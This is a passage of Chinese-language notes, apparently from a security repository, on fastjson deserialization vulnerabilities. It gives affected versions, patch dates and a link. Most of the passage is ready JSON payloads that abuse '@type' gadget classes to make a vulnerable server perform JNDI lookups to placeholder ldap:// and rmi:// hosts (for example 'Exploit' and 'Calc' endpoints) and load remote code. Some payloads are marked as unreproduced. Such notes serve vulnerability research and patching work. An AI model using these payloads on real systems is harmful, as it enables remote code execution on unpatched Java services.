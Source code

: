 ```json
# 以下poc未复现成功

{"v66_error":{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://0.0.0.0"}}

{"v66_error":{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://0.0.0.0"}}

{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://xx.xx.xx.xx:1389/Calc"}}
```

官方于2020/03/19发布1.2.67版本修复该绕过方式

---

1.2.67 版本及其之后的版本传递 JSON 格式 poc 不在需要参数名, poc 格式发生变化

---

## fastjson < 1.2.66 版本拒绝服务漏洞

**影响范围**
- 1.2.36 - 1.2.62

**相关文章**
- [fastjson < 1.2.66 版本最新漏洞分析](https://mp.weixin.qq.com/s/RShHui_TJeZM7-frzCfH7Q)

---

## fastjson<=1.2.68

**描述**

利用条件: fastjson<=1.2.68, 且开启 autoType

```json
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://0.0.0.0"}

{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://0.0.0.0"}
```

官方于 2020/06/01 发布 1.2.69 版本修复该绕过方式

---

## AnterosDBCPConfig

```json
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"rmi://localhost:1099/Exploit\"}
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"rmi://localhost:1099/Exploit\"}
```

---

## JtaTransactionConfig

```json
{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\",\"properties\":{\"UserTransaction\":\"rmi://localhost:1099/Exploit\"}}
```
